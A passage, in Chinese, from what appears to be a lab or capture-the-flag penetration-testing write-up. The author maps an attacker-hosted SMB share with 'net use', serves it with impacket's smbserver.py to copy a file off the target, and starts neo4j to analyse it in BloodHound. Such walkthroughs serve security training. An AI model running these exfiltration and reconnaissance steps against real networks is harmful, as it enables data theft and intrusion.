 然后，我决定将我的共享挂载为驱动器`x:`，指定用户名和密码进行身份验证:

```
net use x: \\10.10.14.3\sifo /user:sifo sifopassword
```

我重新运行了我的 smbserver:

```
sudo /opt/impacket/examples/smbserver.py sifo . -smb2support -username sifo -password sifopassword
```

我复制了文件。我还计算了文件的 MD5 哈希，以进行完整性检查。

![](img/393e8bd1a15d79539315abaa6720111f.png)![](img/091f4f8c7479c5864e243637d8447da1.png)![](img/b1c374abcf4b39767c44511d101371a8.png)

现在我在本地机器上有了这个文件，我启动`neo4j`作为启动`Bloodhound` GUI 的准备。

```
/usr/bin/neo4j console
```

![](img/815429b4c028be3c0ef26cdaf8eda14c.png)

我接着发射`Bloodhound`:
